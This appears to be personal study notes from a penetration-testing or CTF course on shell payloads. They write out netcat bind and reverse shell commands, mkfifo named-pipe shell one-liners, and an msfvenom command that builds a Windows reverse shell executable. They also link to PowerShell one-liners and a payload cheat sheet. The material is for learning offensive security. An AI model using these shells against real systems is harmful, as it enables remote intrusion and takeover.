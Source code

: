 
### Common Shell Payloads

- `/usr/share/windows-resources/binarie`
- `netcat-traditional`
There is a `-e` option which allows you to execute a process on connection
- `nc -lvnp <PORT> -e /bin/bash`

Same for a Rev Shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target. 
**NB!** this is not included in most versions of netcat as it is widely seen to be very insecure

On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:
- `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- description of this command: > _The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle._
A very similar command can be used to send a netcat reverse shell:
- `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.
This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:


<mark style="background: #FFB86CA6;">Link to one-liner</mark> (due to firewall detection deleting the notation file): [link](https://github.com/jrg1a/CTF/blob/main/Privilege%20Escalation/Reverse%20Shell.md)


In order to use this, we need to replace `<IP>` and `<port>` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell 

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages.


### Msfvenom

Syntax: `msfvenom -p <PAYLOAD> <OPTIONS>`

E.g. Windows x64 Reverse Shell
- `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`


### Payloads
